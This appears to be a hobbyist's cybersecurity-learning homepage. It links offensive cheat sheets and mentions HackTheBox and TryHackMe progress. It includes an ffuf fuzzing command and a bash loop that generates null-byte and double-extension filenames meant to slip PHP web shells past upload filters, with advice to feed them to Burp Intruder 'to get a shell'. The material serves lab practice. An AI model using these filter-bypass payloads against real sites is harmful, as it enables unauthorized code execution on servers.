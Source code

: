 #### Welcome to cyberelic

This site focuses on my cyber security journey.

I am a dedicated cybersecurity enthusiast with a passion for safeguarding digital landscapes in an ever-evolving threat landscape. I thrive on the challenge of protecting organizations and individuals from cyber threats. Whether it's implementing robust security measures, conducting penetration testing, or staying up-to-date with the latest vulnerabilities, my mission is to fortify digital ecosystems and ensure data integrity.

---

Here is a small list of the cheat sheets i've been consistantly referring back to:

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

- [Hacktricks](https://book.hacktricks.xyz/)

- [WADcoms](https://wadcoms.github.io/)

---

`ffuf -u http://<target>:<ip> /w wordlist.txt`

---

here is a simple script that i used while trying to bypass and upload filter.


```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
        for ext in '.php' '.phps' '.phar'; do
           echo "shell$char$ext.jpg" >> wordlist.txt
           echo "shell$ext$char.jpg" >> wordlist.txt
           echo "shell.jpg$char$ext" >> wordlist.txt
           echo "shell.jpg$ext$char" >> wordlist.txt
       done
done
```

Use Burp and throw this into intruder to get a shell.

---
#### Hackthebox Academy:

I've been progressing through the Pentester Path and im about %60 finished and its truly a good way to learn the neccessary tools and techniques.

---

<script src="https://tryhackme.com/badge/101635"></script>
